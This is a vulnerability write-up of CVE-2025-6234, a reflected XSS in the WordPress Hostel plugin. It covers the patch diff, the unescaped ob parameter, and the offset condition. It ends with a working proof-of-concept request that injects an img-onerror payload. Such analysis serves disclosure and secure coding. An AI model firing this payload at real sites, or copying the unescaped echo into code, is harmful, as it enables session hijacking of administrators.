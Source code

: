 ```yaml
---
title: CVE-2025-6234 Analysis & POC
description: Security Vulnerability in WordPress Hostel Plugin.
date: 2025-10-02 20:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

The vulnerability exists in the **Hostel** plugin for WordPress prior to version **1.1.5.8**. An attacker could exploit it to target high-privilege users like **admins**.

* **CVE ID**: [CVE-2025-6234](https://www.cve.org/CVERecord?id=CVE-2025-6234)
* **Product**: [WordPress Hostel Plugin](https://wordpress.org/plugins/hostel/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: < 1.1.5.8
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Hostel Plugin**: v1.1.5.7 (vulnerable) and v1.1.5.8 (patched)
* **Diff tool**: meld or any tool that can compare two versions

## Analysis

The root cause is the lack of **sanitization** and **escaping** for a parameter before rendering it on the page, leading to a **Reflected Cross-Site Scripting (XSS)** vulnerability.

### Patch Diff

Use any diff tool to compare the vulnerable version and the patch.
The differences are clearly in two files: **views/bookings.html.php** and **controllers/bookings.php**

**File views/bookings.html.php**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo @$_GET['ob']?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The parameter `ob` is directly taken from `$_GET['ob']` and echoed into an HTML attribute **without escaping**, making it vulnerable to **Reflected XSS**, since an attacker can inject payloads into the query string.

**Patched Code**

```php
<p align="center">
    <?php if($offset > 0):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset - $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[previous page]', 'wphostel')?></a>
    <?php endif;?> 
    <?php if($count > ($page_limit + $offset)):?>
        <a href="admin.php?page=wphostel_bookings&type=<?php echo $type?>&offset=<?php echo $offset + $page_limit?>&ob=<?php echo esc_attr($_GET['ob'] ?? '')?>"><?php _e('[next page]', 'wphostel')?></a>
    <?php endif;?>	
</p>
```

The patch uses `esc_attr()` to safely encode `$_GET['ob']` before echoing into the HTML attribute.

![diff](diff_code.png "Diff showing patched and vulnerable code")

* Source: `$_GET['ob']` is **client-controlled input** from the URL query string.
* Sink: echoed in an **HTML attribute** `ob=<?php echo @$_GET['ob']?>`.

👉 Because the source does not go through controller logic, the diff of **controllers/bookings.php** is less relevant.

### How it works

For `$_GET['ob']` to be echoed in the HTML attribute of `<a>`, the `if` condition enclosing `<a>` must be true:

```php
<?php if($offset > 0):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?> 
<?php if($count > ($page_limit + $offset)):?>
// ob=<?php echo @$_GET['ob']?>
<?php endif;?>	
```

👉 The key condition is `if($offset > 0)`. If true, the XSS can occur regardless of the second condition.

The **views/bookings.html.php** file cannot be accessed directly; it must be included by the **controller** using `include()`.

The `$offset` variable is initialized in the controller and passed to the view.

Searching the plugin controllers shows that `$offset` is set in the `default` branch (**listing bookings**) of the static `manage()` method in class `WPHostelBookings` in **controllers/bookings.php**.

**Controller Code**

```php
class WPHostelBookings {
    static function manage() {
        global $wpdb;
        $_booking = new WPHostelBooking();

        switch(@$_GET['do']) {
            // other logic
            
            // list bookings
            default:
                $type = empty($_GET['type']) ? 'upcoming' : sanitize_text_field($_GET['type']);
                $offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
                $dir = empty($_GET['dir']) ? 'ASC' : $_GET['dir'];
                if($dir != 'ASC' and $dir != 'DESC') $dir = 'ASC';
                $odir = ($dir == 'ASC') ? 'DESC' : 'ASC';
                
                $page_limit = 20;
                $limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
                
                $bookings = $wpdb->get_results("SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
                    FROM ".WPHOSTEL_BOOKINGS." tB JOIN ".WPHOSTEL_ROOMS." tR ON tR.id = tB.room_id
                    WHERE is_static=0 $where_sql $orderby $limit_sql");
                $count = $wpdb->get_var("SELECT FOUND_ROWS()");	
                
                if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
                else include(WPHOSTEL_PATH."/views/bookings.html.php");				  
            break;
        }
    }
}
```

**Analysis of `$offset`**

* `$offset` comes from the URL parameter `$_GET['offset']`:

  * Absent → defaults to 0
  * Present → cast to integer via `intval()`

```php
$offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
```

**Analysis of `$page_limit`**

* `$page_limit` is fixed at `20` for pagination

```php
$page_limit = 20;
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

This ensures SQL returns up to **20 records** starting from `$offset`.

**XSS condition in view**:

* The payload displays only if `if($offset > 0)` → requires at least **1 offset**
* Exploit requires at least **2 bookings** in the database to render payload

The controller passes results to the view using:

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` is the absolute path to the plugin directory.

![search path](search_path.png "Absolute path to the plugin directory")

## Exploit

**Request with XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload**

```html
"><img src=x onerror=alert(document.domain)>
```

* Closes `<a>` tag with `">`
* Adds `<img>` tag with `onerror` to trigger JavaScript
* Uses `alert(document.domain)` to clearly demonstrate DOM access

**Result**

![xss success](xss_success.png "Reflected XSS triggered successfully")

## Conclusion

The **CVE-2025-6234** vulnerability in the **WordPress Hostel** plugin stems from improper handling of input `($_GET['ob'])` before rendering. This allows an attacker to inject **Reflected XSS**.

The patch fixes it by using `esc_attr()` to escape the input, ensuring untrusted values cannot inject malicious scripts.

**Key takeaways**:

* Always **sanitize** input and **escape** output according to context.
* In WordPress, leverage built-in functions like `sanitize_text_field()`, `esc_attr()`, `esc_html()`, `wp_kses()` to mitigate security risks.

## References

[XSS Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Hostel Plugin < 1.1.5.8 is vulnerable to Cross Site Scripting (XSS) - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-plugin-1-1-5-8-reflected-xss-vulnerability)
